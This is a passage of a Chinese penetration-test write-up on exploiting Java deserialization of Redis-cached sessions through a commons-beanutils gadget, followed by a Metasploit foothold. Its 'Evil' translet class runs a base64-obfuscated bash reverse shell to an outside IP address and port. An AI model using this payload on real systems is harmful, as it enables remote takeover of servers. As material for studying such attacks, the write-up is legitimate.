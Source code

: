在获取缓存的时候调⽤反序列化还原对象，查看redis缓存内容是反序列化格式。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrm8HI98MfRPDRicQqEtIxYic4yMQU6p9yhN0AH6iaPpOPNW05ydugzpHibsoxdgib4qiaM7jOzu6e4TXmQ/640?wx_fmt=png&from=appmsg "")  
  
从依赖中看到 cb  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrm8HI98MfRPDRicQqEtIxYicl6kvsDXMlicBMrrZ7180rdUAfAibJJYxvWYrtbfO9QMo5HXuH4UOLWQQ/640?wx_fmt=png&from=appmsg "")  
### exp编写  
```
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
public class Evil extends AbstractTranslet {
public void transform(DOM document, SerializationHandler[] handlers) t
hrows TransletException {}
public void transform(DOM document, DTMAxisIterator iterator, Serializ
ationHandler handler) throws TransletException {}
public Evil() throws Exception {
Process p = null;
try {
Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+Ji9kZXYvd
GNwLzEwMy4xNDguMjQ0LjE1MS84ODc3IDA+JjE=}|{base64,-d}|{bash,-i}");
p.waitFor();
} catch (Exception e) {
e.printStackTrace();
}
}
}
```  
  
在redisdb中写入session  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrm8HI98MfRPDRicQqEtIxYicWNVjxzQic7qlFNtwzJkwwlGz30pia5ZTyhwvrBgsplQIAN2vNa4DuQ6g/640?wx_fmt=png&from=appmsg "")  
  
然后使用bash进行反弹shell。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrm8HI98MfRPDRicQqEtIxYiccwBrGEL0qDjpc7uY6MXlG2AUHrUXyicYrysdjlSEMX5UAl5geViaymGw/640?wx_fmt=png&from=appmsg "")  
  
发现成功写入了key。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrm8HI98MfRPDRicQqEtIxYicgHsJdKibes8Ght3dQpUQFsavIp8ibLfvNuB55sicKSpia9iaibcKib3jSict2w/640?wx_fmt=png&from=appmsg "")  
  
然后抓包去触发。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrm8HI98MfRPDRicQqEtIxYicHIiaBeYnc9vqqfvR8kSiazpicVicWDrNicmdFeOOMYRLeGarhp5g5R5j7pQ/640?wx_fmt=png&from=appmsg "")  
## msf上线  
  
上传msf的木马，接着进行上线  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrm8HI98MfRPDRicQqEtIxYic79jPxIsXe1wa5RUhTFVMWj5QJW1Oucme5RQ0GpxFWSRtiboP87qCsBQ/640?wx_fmt=png&from=appmsg "")  
  